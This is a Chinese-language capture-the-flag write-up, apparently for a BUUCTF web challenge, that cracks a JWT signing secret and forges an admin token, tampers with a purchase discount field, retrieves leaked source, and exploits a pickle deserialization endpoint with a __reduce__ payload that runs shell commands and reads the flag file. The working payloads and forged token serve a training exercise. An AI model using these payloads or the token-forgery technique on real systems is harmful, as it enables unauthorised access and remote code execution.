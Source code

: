 ![[Pasted image 20221226095504.png|500]]

---

![[Pasted image 20221226095527.png|700]]

草，地下组织是吧（

先注册一个账号试试

![[Pasted image 20221226095732.png|700]]

扫目录好像没扫出什么东西

![[Pasted image 20221226102523.png|700]]

有个jwt
```
JWT=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6IkNyYWNrVEMifQ.EROtea15Wqt7t3TbLzHl4silV3GhEDvAY8v6HcBiACw
```

尝试破解

```
SECRET FOUND: 1Kun
Time taken (sec): 11.454
```

伪造成`admin`

![[Pasted image 20221226105231.png|700]]

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIn0.40on__HQ8B2-wM1ZSwax3ivRK4j54jlaXv-1JjQynjo
```

![[Pasted image 20221226105506.png|700]]
![[Pasted image 20221226105616.png|700]]

原来是让我们在首页找`lv6`嘛QAQ

当然是自动化（这辈子都是不可能手动去找的）
```python
import os
import requests
import time

url = 'http://d4c2ad15-e197-4f2a-860c-dc3a47dfe33e.node4.buuoj.cn:81/shop'

for i in range(1, 100000):
    response = requests.get(url, {'page': i})
    if response.text.find('lv6.png') > 0:
        print(i)
        time.sleep(0.1)
        break
```

> 180

![[Pasted image 20221226110421.png|500]]

好恶臭的价格啊（恼

![[Pasted image 20221226110619.png]]

```
_xsrf=2%7C28c03bf5%7C4c4a42fbd604997e06764c102a28edea%7C1672021882&id=1624&price=1145141919.0&discount=0.8
```
谁家`discount`这么搞的QwQ

改成`0.00000001`（居然不能直接改成`0`）

![[Pasted image 20221226110932.png]]

![[Pasted image 20221226111038.png]]

大草

![[Pasted image 20221226111057.png]]

先获取源码

```
/static/asd1f654e683wq/www.zip
```

![[Pasted image 20221226111229.png]]

高情商：节约流量

低情商：百度网盘==

![[Pasted image 20221226112353.png|700]]

![[Pasted image 20221226112419.png|700]]

```python
    @tornado.web.authenticated
    def post(self, *args, **kwargs):
        try:
            become = self.get_argument('become')
            p = pickle.loads(urllib.unquote(become))
            return self.render('form.html', res=p, member=1)
        except:
            return self.render('form.html', res='This is Black Technology!', member=0)
```

```html
<div class="ui segment">{{ res }}</div>
```

`python`里面通过`__reduce__`魔术方法来[自定义pickle反序列化行为](https://stackoverflow.com/questions/19855156/whats-the-exact-usage-of-reduce-in-pickler)，通过

```python
import pickle
import urllib
import commands

class payload(object):
	def __reduce__(self):
		return (commands.getoutput, ('ls /',))

p = payload()
p = urllib.quote(pickle.dumps(p))
print(p)

```
用`python2`是坏文明（恼

```
ccommands%0Agetoutput%0Ap0%0A%28S%27ls%20/%27%0Ap1%0Atp2%0ARp3%0A.
```

```
app bin dev etc flag.txt home lib media mnt opt proc root run sbin srv sys tmp usr var
```

```python
import pickle
import urllib
import commands

class payload(object):
	def __reduce__(self):
		return (commands.getoutput, ('cat /flag.txt',))

p = payload()
p = urllib.quote(pickle.dumps(p))
print(p)

```

```
ccommands%0Agetoutput%0Ap0%0A%28S%27cat%20/flag.txt%27%0Ap1%0Atp2%0ARp3%0A.
```

```
flag{3811325b-5913-45d0-b8e1-bd7b8e76cb65}
```

#Web #jwt #暴力破解 #源码泄漏 #python #pickle #魔术方法 #RCE #反序列化 